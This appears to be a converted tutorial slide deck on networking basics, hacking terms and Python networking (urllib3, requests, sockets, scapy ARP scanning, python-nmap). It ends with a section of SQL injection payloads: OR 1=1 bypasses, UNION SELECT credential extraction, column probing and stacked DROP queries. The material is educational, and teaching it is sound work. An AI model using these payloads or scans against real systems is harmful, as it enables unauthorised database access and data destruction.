




Networking
and
Hack
Created by Farzad Latifnia (@FreezeMan)
Jan 2021
What is Networking?
Computer Networking aims to study and analyze the communication process among various computing devices or computer systems that are linked, or networked together to exchange information and share resources
- LAN (Local Area Network)
- WAN (Wide Area Network)
- MAN (Metropolitan Area Network)
- PAN(Personal Area Network)
The OSI(Open System Interconnection) Model
- Physical Layer
- Datalink Layer
- Network Layer
- Transport Layer
- Session Layer
- Presentation Layer
- Application Layer
The TCP/IP Model
Transmission Control Protocol / Internet Protocol
- Host-to-network(Network Access) Layer
- Internet(Network) Layer
- Transport Layer
- Application Layer
ARPA(Advanced Research Projects Agency) known as ARPANET, ARPA's name was changed to Defense Advanced Research Projects Agency (DARPA) in 1971, some people refer to ARPANET as DARPANET. (DARPA was changed back to ARPA in 1993 and back to DARPA again in 1996.)
Transmission Control Protocol(TCP)
In TCP there is a concept of handshake. So, What is a handshake? It's a way to ensure that the connection has been established between interested hosts and therefore data transfer can be initiated.
- Reliable
- Ordered
- Heavyweight
User Datagram Protocol(UDP)
UDP is a connectionless protocol. In this protocol data is sent over the internet as datagrams.
- Unreliable
- Not ordered
- Lightweight
- Datagrams
IP Addresses and Ports
IP addresses are the addresses which helps to uniquely identify a device over the internet and Port is an endpoint for the communication in an operating system
A system might be running thousands of services but to uniquely identify a service on a system the application requires a port number
There are total of 0 – 65535 ports on a system
IP Address
Static, Dynamic
IP address is of two types:
- Private IP address: Ranges from (192.168.0.0 – 192.168.255.255), (172.16.0.0 – 172.31.255.255) or (10.0.0.0 - 10.255.255.255)
- Public IP address: A public IP address is an IP address that your home or business router receives from your ISP(Internet Service Provider).
0.0.0.0 – 0.255.255.255 (Current network)
127.0.0.0 – 127.255.255.255(for loopback addresses to the localhost)
Ports
Official: Port is registered with IANA for the application
Unofficial: Port is not registered with IANA for the application
Multiple use: Multiple applications are known to use this port.
common network ports you should know
Part 1
- 20: File Transfer Protocol (FTP) Data Transfer
- 21: File Transfer Protocol (FTP) Command Control
- 22: Secure Shell (SSH)
- 23: Telnet - Remote login service, unencrypted text messages
- 25: Simple Mail Transfer Protocol (SMTP) E-mail Routing
- 53: Domain Name System (DNS) service
- 80: Hypertext Transfer Protocol (HTTP) used in World Wide Web
common network ports you should know
Part 2
- 110: Post Office Protocol (POP3) used by e-mail clients to retrieve e-mail from a server
- 119: Network News Transfer Protocol (NNTP)
- 123: Network Time Protocol (NTP)
- 143: Internet Message Access Protocol (IMAP) Management of Digital Mail
- 161: Simple Network Management Protocol (SNMP)
- 194: Internet Relay Chat (IRC)
- 443: HTTP Secure (HTTPS) HTTP over TLS/SSL
Firewall
The firewall monitors the incoming and outgoing network traffic based on predefined security rules like scanning digital signature, checking for valid file formats etc.
- firewalld: On Fedora, CentOS, Red Hat, and similar distributions, the firewall software installed by default.
- UFW: On Debian and Ubuntu for managing the iptables firewall easily. A Graphical user interface of ufw, GUFW is also available for Ubuntu and Debian users.
- Iptables/Netfilter: installed by default on all official Ubuntu distributions (Ubuntu, Kubuntu, Xubuntu) and almost always comes pre-installed on any Linux distribution.
Firewall
- IPCop: provides a well designed web interface to manage the firewall. It’s very useful and good for Small businesses and Local PCs.Its Color coded Web Interface allows you to Monitor the performance Graphics for CPU, Memory and Disk as well as Network throughput.
- Shorewall: GUI interface with Webmin control Panel. Multiple ISP support. Centralized firewall Administration. Supports a wide range of routers/firewall/gateway applications.
- Vuurmuur: On Debian and Ubuntu for managing the iptables firewall easily. A Graphical user interface of ufw, GUFW is also available for Ubuntu and Debian users.
Firewall
- pfSense: a very reliable firewall for FreeBSD servers. Can be deployed as a perimeter firewall, router, DHCP & DNS server. Highly configurable and upgraded from its Web – based interface. Configured as wireless access point and a VPN endpoint. Traffic shaping and Real Time information about the server. Inbound and Outbound load balancing.
- IPFire: open source Linux based firewalls for Small Office , Home Office (SOHO) environments. Its designed with modularity and highly flexibility. Can be deployed as a firewall, a proxy server or a VPN gateway. Content filtering. Inbuilt Intrusion detection system. Support hypervisors like KVM, VmWare and Xen for Virtualization environment.
Firewall
- SmoothWall: Linux firewall with a highly configurable Web based interface. Its Web based interface is know as WAM (Web Access manager). Supports LAN, DMZ, and Wireless networks, plus External.
- Endian: Endian firewall is another Stateful packet Inspection concept based firewall which can be deployed as routers, proxy and Gateway VPN with OpenVPN. Its originally developed from IPCop firewall which is also a fork of Smoothwall. Can secure web server with HTTP & FTP proxies, antivirus and URL blacklist. Can secure Mail servers with SMTP and POP3 proxies, Spam Auto-learning, Greylisting. VPN with IPSec. Real time Network traffic logging.
Firewall
- ConfigServer Security Firewall(CSF): Configserver security & firewall, It’s a cross platform and a very versatile Firewall, it’s also based on the concept of Stateful packet inspection (SPI) Firewall. It supports almost all Virtualization environments like Virtuozzo, OpenVZ, VMware, XEN, KVM and Virtualbox. Can be easily integrated popular web hosting control panels like cPanel, DirectAdmin and Webmin. Its daemon process LFD( Login failure daemon) checks for login failures of sensitive servers like ssh, SMTP, Exim, Imap, Pure & ProFTP, vsftpd, Suhosin and mod_security failures.
- Windows Firewall(Netsh command): windows firewall manager :)
Linux/Unix OS
Best of Distro for Developer
- Arch(Linux kernel)
- Debian(Linux kernel)
- Solus(Linux kernel)
- Manjaro(Arch)
- Puppy Linux(Ubuntu and Slackware)
- Pop!_OS(Debian and Ubuntu)
- Ubuntu(Debian)
- Sabayon Linux(Gentoo)
- CentOS Stream(RedHat)
- Fedora Workstation(RedHat)
- openSUSE(Slackware)
- Raspberry Pi OS(Debian)
Linux/Unix OS
Best of Distro for Hackers
- Kali Linux(Debian)
- BlackArch(Arch)
- BackBox(Ubuntu)
- Parrot Security OS(Debian)
- Bugtraq(Linux kernel)
- DEFT Linux(Linux and DART)
- Samurai Web Testing Framework(Ubuntu)
- Pentoo Linux(Gentoo)
- CAINE(Ubuntu)
- Network Security Toolkit(Fedora)
- Fedora Security Spin(Fedora)
- ArchStrike or ArchAssault(Arch)
Useful Commands
some commands for hacker
- du(Disk usage)The du command is a standard Linux/Unix command that allows a user to gain disk usage information quickly
- ps(processes status)is a native Unix/Linux utility for viewing information concerning a selection of running processes on a system: it reads this information from the virtual files in /proc filesystem
- netstat(Network statistics)is a command line utility that can be used to list out all the network (socket) connections on a system. It lists out all the tcp, udp socket connections and the unix socket connections.
- killkill command in Linux (located in /bin/kill), is a built-in command which is used to terminate processes manually. kill command sends a signal to a process which terminates the process
- scp(secure copy)is used to copy file(s) between servers in a secure way. The SCP command or secure copy allows secure transferring of files in between the local host and the remote host or between two remote hosts.
Useful Commands
some commands for hacker
- ssh(secure shell)is a network protocol that enables secure remote connections between two systems.
- cp(copy)This command is used to copy files or group of files or directory.
- rm(remove)is used to remove objects such as files, directories, symbolic links and so on from the file system like UNIX.
- mv(move)is a Unix command that moves one or more files or directories from one place to another.
- ls(list) is a command to list computer files in Unix and Unix-like operating systems.
Useful Commands
some commands for hacker
- chmodThis command can be used to change the general permissions of a file or directory.
- chown(change owner)This command can be used to change the ownership of files and directories from one user to another.
- useraddCreates a home directory for the user(create user)
- passwdThis will prompt you to enter a password or change password.
- pwdThis command shows you where you are currently working from within the system.
- whereisThis command can be used to locate installed binaries within the system.
Useful Commands
some commands for hacker
- locateThis command is used to find files within the system.
- findThis command allows you to find files within the system in a more granular manner.
- catThis command outputs the contents of a file. It can also be used to feed the contents of a file into another file by combining it with the > operator.
- ifconfigThese commands can be used to bring up or take down the network interfaces — ifconfig for the Ethernet interface and iwconfig for the wireless interface.
- tcpdumpThis command can be used to analyze network traffic for various purposes and to capture network traffic into a file that can later on be thoroughly analyzed for specific traffic.
Useful Commands
some commands for hacker
- traceroutetraceroute and tracert are computer network diagnostic commands for displaying possible routes and measuring transit delays of packets across an Internet Protocol network.
- netcatis a computer networking utility for reading from and writing to network connections using TCP or UDP. The command is designed to be a dependable back-end that can be used directly or easily driven by other programs and scripts.
Who is Hacker?
A computer hacker is a computer expert who uses their technical knowledge to achieve a goal (malicious or intentional) or overcome an obstacle, within a computerized system by non-standard means. someone who utilizes their technical know-how of bugs or exploits to break into computer systems and access data.
Types of Hacker
- White hat hacker
- Black hat hacker
- Grey hat hacker
Common Hacking Techniques
- Bait and Switch
- Cookie Theft with XSS
- Denial of Service/Distributed Denial of Service (DoS/DDoS)
- Eavesdropping(Passive Attacks)
- Keylogging
- Malware
- ClickJacking Attacks
- Brute Force Attack
- Keylogging
- Malware and Viruses and Trojans
- Phishing and Related Phenomena
- Watering Hole and WAP Attacks(Fake W.A.P.)
- Man in the Middle” (or “MITM”) Attack
HTTP response status codes
- Informational responses (100–199)
- Successful responses (200–299)
- Redirects (300–399)
- Client errors (400–499)
- Server errors (500–599)
Python Internet modules
A list of some important modules in Python Network/Internet programming
| Protocol | Common function | Port No | Python module |
|---|---|---|---|
| HTTP | Web pages | 80 | httplib, urllib, xmlrpclib |
| NNTP | Usenet news | 119 | nntplib |
| FTP | File transfers | 20 | ftplib, urllib |
| SMTP | Sending email | 25 | smtplib |
| POP3 | Fetching email | 110 | poplib |
| IMAP4 | Fetching email | 143 | imaplib |
| Telnet | Command lines | 23 | telnetlib |
| Gopher | Document transfers | 70 | gopherlib, urllib |
Python modules
- urllib(urllib2, urllib3)
- request
- socket
- scapy
- python-nmap
- selenium
- beautifulsoup
urllib(v.3)
The urllib3 module is a powerful, sanity-friendly HTTP client for Python. It supports thread safety, connection pooling, client-side SSL/TLS verification, file uploads with multipart encoding, helpers for retrying requests and dealing with HTTP redirects, gzip and deflate encoding, and proxy for HTTP and SOCKS.
pip3 install urllib3
#!/usr/bin/env python3
import urllib3
print(urllib3.__version__)
#'1.26.3'
http = urllib3.PoolManager() # generate a request
url = 'http://freezeman.com'
resp = http.request('GET', url) # send the request
print(resp.data.decode('utf-8'))
print(resp.status) # the status code of the response
resp = http.request('HEAD', url) # request is a GET request without a message body
print(resp.headers['Server'])
print(resp.headers['Date'])
print(resp.headers['Content-Type'])
print(resp.headers['Last-Modified'])
Python urllib3 HTTPS request
The urllib3 provides client-side TLS/SSL verification.For this, we need to download the certifi module.
pip install certifi
#!/usr/bin/env python3
import urllib3
import certifi
url = 'https://httpbin.org/anything'
http = urllib3.PoolManager(ca_certs=certifi.where())
resp = http.request('GET', url)
print(resp.status) Python urllib3 query parameters
for Get Request
#!/usr/bin/env python3
import urllib3
import certifi
http = urllib3.PoolManager(ca_certs=certifi.where())
payload = {'name': 'Peter', 'age': 23}
url = 'https://httpbin.org/get'
req = http.request('GET', url, fields=payload)
print(req.data.decode('utf-8'))
"""
{
"args": {
"age": "23",
"name": "Peter"
},
"headers": {
"Accept-Encoding": "identity",
"Host": "httpbin.org",
"X-Amzn-Trace-Id": "Root=1-5e4ea45f-c3c9c721c848f8f81a3129d8"
},
"origin": "188.167.251.9",
"url": "https://httpbin.org/get?name=Peter&age=23"
}
""" Python urllib3 query parameters
for Post Request
#!/usr/bin/env python3
import urllib3
import certifi
http = urllib3.PoolManager(ca_certs=certifi.where())
url = 'https://httpbin.org/post'
req = http.request('POST', url, fields={'name': 'John Doe'})
print(req.data.decode('utf-8'))
"""
{
"args": {},
"data": "",
"files": {},
"form": {
"name": "John Doe"
},
...
"url": "https://httpbin.org/post"
}
""" Python urllib3 send JSON
In requests, such as POST or PUT, the client tells the server what type of data is actually sent with the Content-Type header.
#!/usr/bin/env python3
import urllib3
import certifi
import json
http = urllib3.PoolManager(ca_certs=certifi.where())
payload = {'name': 'John Doe'}
encoded_data = json.dumps(payload).encode('utf-8')
resp = http.request(
'POST',
'https://httpbin.org/post',
body=encoded_data,
headers={'Content-Type': 'application/json'})
data = json.loads(resp.data.decode('utf-8'))['json']
print(data)
"""
{'name': 'John Doe'}
""" Python urllib3 binary data
In the following example, we download binary data.
#!/usr/bin/env python3
import urllib3
http = urllib3.PoolManager()
url = 'http://webcode.me/favicon.ico'
req = http.request('GET', url)
with open('favicon.ico', 'wb') as f:
f.write(req.data)
Python urllib3 stream data
Chunked transfer encoding is a streaming data transfer mechanism available since HTTP 1.1. In chunked transfer encoding, the data stream is divided into a series of non-overlapping chunks. The chunks are sent out and received independently of one another. Each chunk is preceded by its size in bytes.
#!/usr/bin/env python3
import urllib3
import certifi
url = "https://docs.oracle.com/javase/specs/jls/se8/jls8.pdf"
local_filename = url.split('/')[-1]
http = urllib3.PoolManager(ca_certs=certifi.where())
resp = http.request(
'GET',
url,
preload_content=False)
with open(local_filename, 'wb') as f:
for chunk in resp.stream(1024):
f.write(chunk)
resp.release_conn()
Python urllib3 redirect
A redirect sends users and search engines to a different URL from the one they originally requested. To follow redirects, we set the redirect option to True.
#!/usr/bin/env python3
import urllib3
import certifi
http = urllib3.PoolManager(ca_certs=certifi.where())
url = 'https://httpbin.org/redirect-to?url=/'
resp = http.request('GET', url, redirect=True)
print(resp.status)
print(resp.geturl())
print(resp.info())
"""
200
/
HTTPHeaderDict({'Date': 'Fri, 21 Feb 2020 12:49:29 GMT', 'Content-Type': 'text/html;
charset=utf-8', 'Content-Length': '9593', 'Connection': 'keep-alive',
'Server': 'gunicorn/19.9.0', 'Access-Control-Allow-Origin': '*',
'Access-Control-Allow-Credentials': 'true'})
"""
Requests Module With Python
Requests is a Python module that you can use to send all kinds of HTTP requests. It is an easy-to-use library with a lot of features ranging from passing parameters in URLs to sending custom headers and SSL Verification. In this tutorial, you will learn how to use this library to send simple HTTP requests in Python.
pip3 install requests
#!/usr/bin/env python3
import requests
# r = requests.put('https://httpbin.org/put', data = {'key':'value'})
# r = requests.post('https://httpbin.org/post', data = {'key':'value'})
# r = requests.get('https://httpbin.org/get')
# r = requests.delete('https://httpbin.org/delete')
# r = requests.head('https://httpbin.org/get')
# r = requests.options('https://httpbin.org/get')
req = requests.get('http://www.edureka.co/')
print(req.encoding, # returns 'utf-8'
req.status_code, # returns 200
req.elapsed, # returns datetime.timedelta(0, 1, 666890)
req.url, # returns 'c'
req.history, # track redirection
# req.content,
req.headers['Content-Type'] # returns 'text/html; charset=utf-8',
sep="\n")
"""
UTF-8
200
0:00:01.077320
https://www.edureka.co:443/
[<Response [301]>]
text/html; charset=UTF-8
"""
# req.json() # For json encoding
# [{'repository': {'open_issues': 0, 'url': 'https://edureka.co/...
# req.text # If the content you are accessing is text
# '[{"repository":{"open_issues":0,"url":"https://edureka.co/...
# req.raw.read(10) # get the raw response 10 bytes
# print(req.headers)
"""
{
'content-encoding': 'gzip',
'transfer-encoding': 'chunked',
'connection': 'close',
'server': 'nginx/1.0.4',
'x-runtime': '148ms',
'etag': '"e1ca502697e5c9317743dc078f67693f"',
'content-type': 'application/json'
}
"""
Requests with GET request
#!/usr/bin/env python3
import requests
query = {'q': 'Forest', 'order': 'popular', 'min_width': '800', 'min_height': '600'}
req = requests.get('https://pixabay.com/en/photos/', params=query)
req.url
# returns 'https://pixabay.com/en/photos/?order=popular_height=600&q=Forest&min_width=800'
Requests with POST request
#!/usr/bin/env python3
import requests
req = requests.post('https://en.wikipedia.org/w/index.php', data = {'search':'Nanotechnology'})
req.raise_for_status()
with open('Nanotechnology.html', 'wb') as fd:
for chunk in req.iter_content(chunk_size=50000):
fd.write(chunk)
Requests send JSON
#!/usr/bin/env python3
import requests
import json
url = 'https://api.github.com/some/endpoint'
payload = {'some': 'data'}
r = requests.post(url, data=json.dumps(payload))
# r = requests.post(url, json=payload) # added in version 2.4.2
# Using the json parameter in the request will change the Content-Type in the header to application/json.
POST a Multipart-Encoded File
Requests makes it simple to upload Multipart-encoded files
#!/usr/bin/env python3
import requests
url = 'https://httpbin.org/post'
files = {'file': open('report.xls', 'rb')}
r = requests.post(url, files=files)
print(r.text)
"""
{
...
"files": {
"file": "<censored...binary...data>"
},
...
}
"""
# You can set the filename, content_type and headers explicitly
url = 'https://httpbin.org/post'
files = {'file': ('report.xls', open('report.xls', 'rb'), 'application/vnd.ms-excel', {'Expires': '0'})}
r = requests.post(url, files=files)
print(r.text)
"""
{
...
"files": {
"file": "<censored...binary...data>"
},
...
}
"""
Requests stream data or Downloading
#!/usr/bin/env python3
import requests
req = requests.get('path/to/forest.jpg', stream=True)
req.raise_for_status() # If we made a bad request (a 4XX client error or 5XX server error response), we can raise it with
with open('Forest.jpg', 'wb') as fd:
for chunk in req.iter_content(chunk_size=50000): # bytes
print('Received a Chunk')
fd.write(chunk)
How to Insert Headers & Cookies in a Request?
#!/usr/bin/env python3
import requests
url = 'http://some-domain.com/set/cookies/headers'
headers = {'user-agent': 'your-own-user-agent/0.0.1'}
cookies = {'visit-month': 'February'}
req = requests.get(url, headers=headers, cookies=cookies)
print(req.cookies['visit-month'])
# 'February'
Cookie jar can also store cookies
They provide a more complete interface to allow you to use those cookies over multiple paths.
#!/usr/bin/env python3
import requests
jar = requests.cookies.RequestsCookieJar()
jar.set('first_cookie', 'first', domain='httpbin.org', path='/cookies')
jar.set('second_cookie', 'second', domain='httpbin.org', path='/extra')
jar.set('third_cookie', 'third', domain='httpbin.org', path='/cookies')
url = 'http://httpbin.org/cookies'
req = requests.get(url, cookies=jar)
req.text
# returns '{ "cookies": { "first_cookie": "first", "third_cookie": "third" }}'
Session Objects
Sessions are also helpful when you want to send the same data across all requests. For example, if you decide to send a cookie or a user-agent header with all the requests to a given domain, you can use Session objects.
#!/usr/bin/env python3
import requests
ssn = requests.Session()
ssn.cookies.update({'visit-month': 'February'})
reqOne = ssn.get('http://httpbin.org/cookies')
print(reqOne.text)
# prints information about "visit-month" cookie
reqTwo = ssn.get('http://httpbin.org/cookies', cookies={'visit-year': '2017'})
print(reqTwo.text)
# prints information about "visit-month" and "visit-year" cookie
reqThree = ssn.get('http://httpbin.org/cookies')
print(reqThree.text)
# prints information about "visit-month" cookie
Custom Headers
If you’d like to add HTTP headers to a request, simply pass in a dict to the headers parameter.
#!/usr/bin/env python3
import requests
url = 'https://api.github.com/some/endpoint'
headers = {'user-agent': 'my-app/0.0.1'}
r = requests.get(url, headers=headers)
socket
Socket acts on two parts: IP Address + Port Number
with
two sides: Client(Attaker) + Server(victim)
s = socket.socket (socket_family, socket_type, protocol=0)
- socket_family: This is either AF_UNIX or AF_INET, as explained earlier
- socket_type: This is either SOCK_STREAM or SOCK_DGRAM
- protocol: This is usually left out, defaulting to 0
socket
Server Socket Methods
- s.bind(): binds address (hostname, port number pair) to socket
- s.listen(): This method sets up and start TCP/UDP listener
- s.accept(): This passively accept client connection, waiting until connection arrives
socket
Client Socket Methods
- s.connect(): This method actively initiates server connection
General Socket Methods
- s.recv(): This method receives TCP message
- s.send(): This method transmits TCP message
- s.recvfrom(): This method receives UDP message
- s.sendto(): This method transmits UDP message
- s.close(): This method closes socket
- socket.gethostname(): Returns the hostname
socket
Socket Client
#!/usr/bin/env python3
import socket
HOST = '127.0.0.1' # The server's hostname or IP address
PORT = 65432 # The port used by the server
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
s.connect((HOST, PORT))
s.sendall(b'Hello, world')
data = s.recv(1024)
print('Received', repr(data))
socket
Socket Server
#!/usr/bin/env python3
import socket
HOST = '127.0.0.1' # Standard loopback interface address (localhost)
PORT = 65432 # Port to listen on (non-privileged ports are > 1023)
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
s.bind((HOST, PORT))
s.listen()
conn, addr = s.accept()
with conn:
print('Connected by', addr)
while True:
data = conn.recv(1024)
if not data:
break
conn.sendall(data)
Scapy
Scapy is a powerful interactive packet manipulation program. It is able to forge or decode packets of a wide number of protocols, send them on the wire, capture them, match requests and replies, and much more. It can easily handle most classical tasks like scanning, tracerouting, probing, unit tests, attacks or network discovery(it can replace hping, 85% of nmap, arpspoof, arp-sk, arping, tcpdump, tethereal, p0f, etc.).
pip3 install scapy-python3
creating Network scanner
ARP()
This function defined in scapy module which allows us to create ARP packets (request or response). By default, if we are calling it, it will create an ARP request packet for us.
import scapy.all as scapy
request = scapy.ARP()status of the packet
summary()
This method provide us the status of the packet that we have created. It does not provide the detailed information about the packet, it just gives us the basic idea like what is the type of packet, what is the destination of the packet etc.
import scapy.all as scapy
request = scapy.ARP()
print(request.summary())
###output:
ARP who has 0.0.0.0 says 192.168.100.214
gives more detailed information
show()
This method is very similar to summary() method. It gives more detailed information about the packet. The usage of this function is also much similar to as summary() method.
import scapy.all as scapy
request = scapy.ARP()
print(request.show())
list of available fields
ls()
This method is present in the scapy class. By using this method, we can see what are the fields that we can set for a specific packet.In our example we will create an ARP packet and the with the help of ls() function, we will see what are the available fields for this packet.
import scapy.all as scapy
request = scapy.ARP()
print(scapy.ls(scapy.ARP()))
Steps for creating Network Scanner
- Create an ARP packet using ARP() method.
- Set the network range using variable.
- Create an Ethernet packet using Ether() method.
- Set the destination to broadcast using variable hwdst.
- Combine ARP request packet and Ethernet frame using ‘/’.
- Send this to your network and capture the response from different devices.
- Print the IP and MAC address from the response packets.
import scapy.all as scapy
request = scapy.ARP()
request.pdst = '192.168.1.1/24, 172.16.5.1/16'
broadcast = scapy.Ether()
broadcast.dst = 'ff:ff:ff:ff:ff:ff'
request_broadcast = broadcast / request
clients = scapy.srp(request_broadcast, timeout = 1)[0]
for element in clients:
print(element[1].psrc + " " + element[1].hwsrc)
scapy output network
Scapy Basic Functions
- ls(): list of available layers
- explore(): graphical interface to display existing layers
- lsc(): available functions
- help(): help menu
Scapy function group, the most common
- send(): send packets to level 2
- sendp(): send packets to level 3
- sr(): send and receive packets at level 3
- srp(): send and receive packets at level 2
- sr1(): send and receive only the first packet at level 3
- srp1(): sends and receives only the first packet to level 2
- sniff(): packet sniffing
- traceroute(): command trace route
- arping(): Send who-has ARP requests to determine which machines are up in the network
Scapy function sr1 Example(layer 3 icmp)
Scapy function sr1 showing(layer 3 icmp)
Scapy sniff for 10 packets
#! /usr/bin/env python
from scapy.all import *
a=sniff(count=10)
a.nsummary()
Scapy sending of packets as message ICMP
#! /usr/bin/env python
from scapy.all import *
send(IP(dst="1.2.3.4")/ICMP())
sendp(Ether()/IP(dst="1.2.3.4",ttl=(1,4)), iface="eth1")
Scapy commands for sending and receiving packets
sr() and sr1() are for layer 3 packets only. If you wish to send and receive layer 2 packets, you must use srp() or srp1().
#! /usr/bin/env python
from scapy.all import *
ans,unans=sr(IP(dst="192.168.86.130",ttl=5)/ICMP())
ans.nsummary()
unans.nsummary()
p=sr1(IP(dst="192.168.86.130")/ICMP()/"Your Message")
p.show()
What is Nmap(Network Mapper)
Nmap is written in C and LUA programming languages, and can be easily integrated into Python
Some of the useful Nmap features include:
- Host Discovery
- Port Scanning
- Version Detection
- OS Detection
- Scriptable Interaction with the target
Nmap
- Run, sudo apt-get install nmap for Linux
- For Windows and Mac OS X, download and install Nmap: https://nmap.org/download.html
- Use the command, pip3 install python-nmap
- Or install by downloading the package from here
Using Nmap in Python script
>>> import nmap
>>> nmScan = nmap.PortScanner()
>>> scan_range = nmScan.scan(hosts="192.168.0.28")
# scan_range = nmScan.scan(hosts="192.168.0.28 192.168.0.1 192.168.0.2"
# scan_range = nmScan.scan(hosts="192.168.0.1-10")
# scan_range = nmScan.scan(hosts="192.168.0.1/24") # 192.168.0.1 to 192.168.0.255
>>> print (scan_range['scan'])
# {'tcp': {22: {'state': 'open', 'reason': 'syn-ack', 'name': 'ssh', 'product': 'OpenSSH', 'version': '7.9p1 Raspbian 10+deb10u2', 'extrainfo': 'protocol 2.0', 'conf': '10', 'cpe': 'cpe:/o:linux:linux_kernel'}}}
>>> nmScan.scan('127.0.0.1', '21-443')
>>> nmScan.command_line()
# 'nmap -oX - -p 21-443 -sV 127.0.0.1'
>>> nmScan.scaninfo()
{'tcp': {'services': '22-443', 'method': 'connect'}}
>>> nmScan.all_hosts()
['127.0.0.1']
>>> nmScan['127.0.0.1'].hostname()
'localhost'
>>> nmScan['127.0.0.1'].state()
'up'
>>> nmScan['127.0.0.1'].all_protocols()
['tcp']
>>> nmScan['127.0.0.1']['tcp'].keys()
[80, 25, 443, 22, 111]
>>> nmScan['127.0.0.1'].has_tcp(22)
True
>>> nmScan['127.0.0.1'].has_tcp(23)
False
selenium
beautifulsoup
SQL Injection
A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete).
- Retrieving hidden data
- Subverting application logic
- UNION attacks
- Examining the database
- Blind SQL injection
SQL Injection
Retrieving hidden data - Dirty SQL Injection
https://insecure-website.com/products?category=Gifts
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
To
https://insecure-website.com/products?category=Gifts'--
https://insecure-website.com/products?category=Gifts'+OR+1=1--
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
SELECT * FROM members WHERE username = 'admin'--' AND password = 'password'
-- (SM)
DROP sampletable;--
# (M)
DROP sampletable;#
/*Comment Here*/ (SM)
/*! MYSQL Special SQL */ (M)
SELECT /*!32302 1/0, */ 1 FROM tablename
--Will throw a division by 0 error if MySQL version is higher than3.23.02
SQL Injection
Subverting application logic
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
To
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
SQL Injection
UNION attacks
SELECT name, description FROM products WHERE category = 'Gifts'
SELECT header, txt FROM news UNION ALL SELECT name, pass FROM members
To
' UNION SELECT username, password FROM users--
' ORDER BY 1--
' ORDER BY 2--
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--
SQL Injection
Stacking Queries

SQL Injection
SQL injection in different parts of the query
Executing more than one query in one transaction
; (MS)
SELECT * FROM members; DROP members--
ID: 10;DROP members --
SELECT * FROM products WHERE id = 10; DROP members--
SQL Injection
